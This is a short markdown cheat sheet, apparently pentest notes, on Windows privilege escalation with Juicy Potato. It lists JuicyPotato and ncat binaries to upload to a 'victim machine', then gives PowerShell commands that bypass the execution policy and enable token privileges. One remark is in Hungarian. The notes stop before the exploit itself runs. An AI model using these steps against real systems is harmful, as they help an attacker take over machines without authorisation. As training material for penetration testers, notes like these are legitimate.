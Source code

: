 # Win privesc techniques
## Juicy Potato
* Needed scripts from github (all of them need to be uploaded to the victim machine)
  * JuicyPotato binaries
    * https://github.com/ohpe/juicy-potato
  * ncat binaries
    * https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe
  * Enable privileges
    * https://www.powershellgallery.com/packages/PoshPrivilege/0.3.0.0/Content/Scripts%5CEnable-Privilege.ps1
    * https://www.leeholmes.com/adjusting-token-privileges-in-powershell/
<pre>
C:\> Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass -Force
C:\> Import-Module .\EnableAllTokenPrivs.ps1
C:\> Enable-Privilege -Privilege SeAssignPrimaryTokenPrivilege
C:\> whoami /priv (most mar elvileg Enabled lett)
</pre>
